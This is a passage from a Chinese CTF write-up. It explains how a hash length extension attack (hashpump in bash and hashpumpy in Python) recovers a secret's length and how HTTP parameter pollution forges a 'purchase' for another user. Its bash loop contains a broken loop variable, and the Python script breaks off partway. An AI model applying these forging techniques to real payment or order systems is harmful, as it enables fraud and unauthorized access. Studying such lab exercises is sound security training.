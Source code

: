 ```javascript
        b.removeAttr('disabled')
    })
    $('#submit').click(function(){
        t.val(t.data('t'))
    })
</script>
```

这里还有一个小知识点，form 被 js 中的序列化成字符串，如

![1542443290094](C:\Users\LegnaVI\AppData\Roaming\Typora\typora-user-images\1542443290094.png)

(这种 js 可直接通过 F12 中的终端来运行)

![1542443452913](C:\Users\LegnaVI\AppData\Roaming\Typora\typora-user-images\1542443452913.png)



<u>关键点：</u>

1.利用哈希长度扩展攻击跑出密钥长度

2.利用 HPP 实现越权“购买”



==shell版==：第一想法是先生成字典，然后放到bp里跑，结果失败了

```shell
#!/bin/bash

signature="422f15413110908ab58d837ae3b2f28f"
data="order_id=156&buyer_id=39&good_id=25&buyer_point=510&good_price=10&order_create_time=1542048947.212575"
key_len=900  # yizhimiyao
add_data="&a"

for ((len=0; i<350; i++,key_len++))
do
	hashpump -s $signature -d $data -k $key_len -a $add_data
done
```

```shell
#!/bin/bash
bash _shell > len.txt
awk 'NR%2==0' len.txt > post.txt  # 输出偶数行
awk 'NR%2==1' len.txt > sign.txt  # 输出奇数行
```



==py版==：还是py给力，以后全用py吧

如果 solt 长度正确时，post 中添加一个无关的值，仍然不会影响购买，由此可得出密钥长度。

```python
import hashpumpy
import urllib
import requests
import json

for i in range(500):
	signature = '579e444c268e0d907802313318cdfcb2'
	original = 'order_id=160&buyer_id=39&good_id=25&buyer_point=500&good_price=10&order_create_time=1542226400.115264'
	add_data = '&a=233'
	key_length = len(original) + 700 + i

	hash = hashpumpy.hashpump(signature,original,add_data,key_length)

```